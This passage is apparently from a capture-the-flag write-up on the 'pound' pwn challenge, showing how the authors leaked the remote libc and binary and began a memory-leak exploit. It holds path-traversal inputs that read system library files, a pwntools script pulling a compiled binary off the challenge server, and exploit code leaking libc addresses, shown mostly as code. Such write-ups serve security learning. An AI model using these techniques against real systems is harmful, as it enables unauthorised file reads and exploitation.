 <br>Ok, we got the basic idea, now we have to apply it. We still face a couple issues:

1. We need the libc used by the remote binary to calculate `system_in_libc_at_runtime`
2. We need the exact binary compiled by the remote host to know `free_in_got`, since our version of clang could compile a different one (we found out this was the case).

<br>Leaking libc is not a big deal, we still have the read_tweet() function on our side. We can use it on something like `../../../../lib/i386-linux-gnu/libc.so.6` ( we already had it leaked from a previus pwning challenge but verified this worked aswell). To leak the binary the procedure was slightly more difficult since the file name was choosen according to:
{% highlight Python%} 
str_to_hash = "[]{0}[]{1}##END".format(input1,input2)
sim_id = hashlib.sha256(str_to_hash).hexdigest()
sim_name = "sims/sim-{0}".format(sim_id)

if os.path.isfile(sim_name):
    print "Sim compiled, running sim..."
else:
    print "Compiling Sim"
    ret = subprocess.call(["clang", "-m32", "-DL1={}".format(input1),
                    "-DL2={}".format(input2), "pound.c", "-o",
                    sim_name])
{% endhighlight %}
We made a custom script to download it:
{% highlight Python%}
from pwn import *
​
r = remote("pound.pwning.xxx", 9765)
​print r.recvuntil("Quit\n")
r.sendline("1")
print r.recvuntil("20)\n")
str_to_hash = "[]258[]N;k##END"
sim_id = hashlib.sha256(str_to_hash).hexdigest()
to_send = "../sims/sim-{0}".format(sim_id)
r.sendline(to_send)
binary_data = r.recvuntil("1. Read Trump article")
f = open("binary", "w")
f.write(binary)
f.close()
{% endhighlight %}
That's it, [the exploit]({{ site.url }}/writeups_files/pound/pwnpound.py) will do the job! To get a better understanding on how it works and how something more of the pseudocode written above was needed I'm gonna explain some steps in detail, also refer to comments in the file for a deeper understanding:

<br> First step: 
{% highlight Python%} 
def first_step(address):
	fake_address = address + 100
	initialize(fake_address)
	propagate_fw(fake_address)
	initialize(0)
	p = log.progress('Propagating_fw')
	for i in xrange(256):
		p.status("prop " + str(i) + " of 256")
		propagate_fw(fake_address)
	propagate_fw(100)
	p.success("Finish")
	conn.sendline("0")
	conn.recvuntil("PSA: ")
	data = conn.recvuntil("State")
	conn.recvuntil("Choice:")
	leak = data[4:8]
	leak = unpack(leak, 'all', 'little', False)
	log.info("Fgets in libc: " + hex(leak))